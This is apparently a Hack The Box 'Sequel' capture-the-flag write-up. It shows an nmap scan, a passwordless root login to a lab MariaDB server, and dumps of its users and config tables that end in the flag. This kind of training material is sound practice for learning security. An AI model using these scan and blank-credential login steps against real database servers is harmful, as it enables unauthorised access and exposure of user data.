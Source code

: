nmap scanning:
~~~
nmap 10.129.95.232 -sC -sV     
~~~

~~~
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-11 08:28 EDT
Stats: 0:03:32 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 75.00% done; ETC: 08:32 (0:00:03 remaining)
Nmap scan report for 10.129.95.232
Host is up (0.52s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 65
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, Speaks41ProtocolNew, Speaks41ProtocolOld, Interactive Client, Supports Transactions, Supports Load DataLocal, Found Rows, DontAllowDatabaseTableColumn, ODBCClient, LongColumnFlag, ConnectWithDatabase, IgnoreSigpipes, SupportsCompression, IgnoreSpaceBeforeParenthesis, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: ![-iL~X|(N2LjO-3W>n1
|  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 226.43 seconds
~~~

mysql:
it is freely available open source relational Database management System thet uses structured Query language (sql)

salt 
salting is the random characters to data, like passwords, or other secret which want to hash 

MySQL includes a  "`mysql_native_password`" plugin that implements native authentication; that is, authentication based on the password hashing method in use from before the introduction of pluggable authentication.



we try to exploit the mysql databases by some exploits in metasploit but its shows this server is not vuln 

after try to get the access by mysql 
-h for host and -u for connect with root without password 
~~~
mysql -h 10.129.95.232 -u root
~~~

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2161
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
~~~
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.248 sec)

MariaDB [(none)]> show tables;
ERROR 1046 (3D000): No database selected
MariaDB [(none)]> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.247 sec)

MariaDB [htb]> SELECT * from users;
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0.248 sec)

MariaDB [htb]> SELECT * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.248 sec)

MariaDB [htb]> 


flag:7b4bec00d1a39e3dd4e021ec3d915da8
~~~

finally finished !!!!...




https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql




